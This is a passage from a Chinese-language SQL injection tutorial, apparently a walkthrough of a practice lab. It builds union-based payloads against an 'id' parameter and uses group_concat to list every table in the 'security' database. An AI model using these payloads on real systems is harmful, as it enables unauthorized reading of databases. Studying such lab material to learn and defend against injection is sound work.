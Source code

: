 ```
```
所以我们的payload为
```
id=-1' union select 1,2,table_name from information_schema.tables where table_schema = 'security' -- +
```
![8](/img/2018-07-20/8.png)
但是这样我们只能得到一个表，下面要用到一个函数`group__concat`，下面演示一下效果
```
mysql> select group_concat(table_name) from information_schema.tables where table_schema = 'security';
+-------------------------------+
| group_concat(table_name)      |
+-------------------------------+
| emails,referers,uagents,users |
+-------------------------------+
1 row in set (0.00 sec)
```
`group_concat`的作用就是把多个查询结果并到一起，于是payload修改为
```
id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security' -- +
```
